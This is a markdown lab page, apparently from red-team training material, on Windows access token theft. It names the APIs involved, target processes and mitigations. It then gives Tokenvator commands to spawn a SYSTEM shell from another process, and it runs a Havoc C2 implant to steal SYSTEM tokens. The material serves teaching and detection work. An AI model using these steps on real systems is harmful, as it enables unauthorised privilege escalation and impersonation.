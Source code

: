 # Lab - Token theft
## Access Token Theft: Table Summary

| **Category**               | **Details**                                                                                                           |
| -------------------------- | --------------------------------------------------------------------------------------------------------------------- |
| **Threat**                 | Access token theft for privilege escalation and impersonation of SYSTEM-level accounts                                |
| **MITRE ATT&CK**           | T1134 – Access Token Manipulation                                                                                     |
| **Common APIs Used**       | `OpenProcess()`, `OpenProcessToken()`, `ImpersonateLoggedOnUser()`, `DuplicateTokenEx()`, `CreateProcessWithTokenW()` |
| **Typical Target Process** | `winlogon.exe` (commonly abused for SYSTEM token impersonation)                                                       |
| **Alternative Targets**    | `services.exe`, `lsass.exe`, `smss.exe`, `csrss.exe`                                                                  |
| **Why SYSTEM Tokens?**     | SYSTEM retains powerful privileges (e.g., `SeDebugPrivilege`) even when restricted for local admins                   |
| **Detection Challenge**    | Over-reliance on monitoring `winlogon.exe` can overlook token theft using other SYSTEM processes                      |
| **Defensive Actions**      | - Audit all SYSTEM processes<br>- Enforce least privilege<br>- Deploy security tooling<br>- Educate users             |

<https://specterops.io/wp-content/uploads/sites/3/2022/06/A_Process_is_No_One.pdf>

> ***MITIGATION***: The `SeDebugPrivilege` can be removed from the local administrator group (by using Group policies) to make it harder for an attacker to dump credentials or interact with memory of other processes. However, **privileges cannot be revoked** from the `SYSTEM account` as they are necessary for the operating system to run. This makes SYSTEM access tokens extremely valuable for attackers in hardened environments. 

> PRIVILEGES NEEDED:
> 1. `High Integrity` -> this is needed to access process running in HIGH integrity (i.e. `NT AUTHORITY/SYSTEM`)
> 2. SeDebugPrivilege
> 3. SeImpersonateUser
> 4. AdjustTokenPrivileges

1. <https://github.com/S1ckB0y1337/TokenPlayer>
2. <https://github.com/0xbadjuju/Tokenvator>

```git
git clone --recursive https://github.com/0xbadjuju/Tokenvator.git
Tokenvator.exe GetSystem /Process:3016 /command:'cmd.exe
```

![Screenshot](./images/token_tokenplayer.jpg)

![Screenshot](./images/token_si.jpg)

---

Let's see if we can use our HAVOC demon implant to escalate our privileges from Admin (we'll start with high integrity here as we have already demonstrated how we can get there) to NT AUTHORITY. First clean up all your current implants by selecting each one and marking them as `dead` , `EXIT PROCESS` and finally `remove` the implant from our GUI.

![Screenshot](./images/labtoken_dead.jpg)

![Screenshot](./images/labtoken_exit.jpg)

![Screenshot](./images/labtoken_remove.jpg)

Now let's start a new demon implant running with Threatadmin, this will automatically spawn a new session in high integrity.

Open a command prompt and type the following

```powershell
whoami /groups
c:\temp\demon.x64.exe
```
![Screenshot](./images/labtoken_demonhigh.jpg)

We'll see a new session spawn in our Havoc GUI, let's interact with it using the `TOKEN` module and do a `whoami` to check our privileges.

![Screenshot](./images/labtoken_whoami.jpg)

![Screenshot](./images/labtoken_find.jpg)

![Screenshot](./images/labtoken_steal.jpg)

![Screenshot](./images/labtoken_spawn.jpg)

